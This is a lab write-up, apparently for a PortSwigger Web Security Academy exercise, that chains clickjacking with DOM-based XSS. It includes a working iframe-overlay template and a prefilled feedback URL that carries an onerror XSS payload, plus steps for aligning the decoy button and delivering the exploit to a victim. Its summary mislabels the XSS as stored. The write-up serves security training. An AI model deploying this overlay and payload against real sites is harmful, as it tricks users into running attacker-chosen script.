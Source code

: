 # Clickjacking - Exploiting clickjacking vulnerability to trigger DOM-based XSS

## 📌 Lab Details
- **Title**: Exploiting clickjacking vulnerability to trigger DOM-based XSS
- **Difficulty**: Practitioner
- **Category**: Clickjacking
- **Lab URL**:

## 🔍 Summary
This lab demonstrates combining **Clickjacking with stored XSS** by framing the feedback form with a prepopulated XSS payload, tricking the victim into clicking “Click me” while actually triggering `print()` via the XSS when the victim clicks.

## 🛠 Steps to Solve
1. Log in to the given account.
2. Inject the **XSS** modified payload on the **Exploit** server:
   ```sh
   <style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
   </style>
   <div>Test me</div>
   <iframe
   src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-          website.com&subject=test&message=test#feedbackResult"></iframe>
   ```
3. Adjust the values of the template to align the `Click me` button with the `Submit feedback` button.
4. Deliver exploit to the victim to complete the lab.
   
## 📖 Key Takeaways
- Uses a **prepopulated URL with an XSS payload** (`<img src=1 onerror=print()>`) to execute JavaScript on click.
- Highlights the need for **anti-clickjacking and XSS defenses together** to prevent such chained attacks.
- Shows how **Clickjacking can be used to exploit XSS that requires user interaction**.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/e3371a7f-cd70-4dd3-a81c-633522d69887)
![image](https://github.com/user-attachments/assets/b1430c2b-09ab-4dc1-b203-415d89f6f7c6)
![image](https://github.com/user-attachments/assets/29b0b755-fdaa-4577-b18b-adba75e7c4a7)

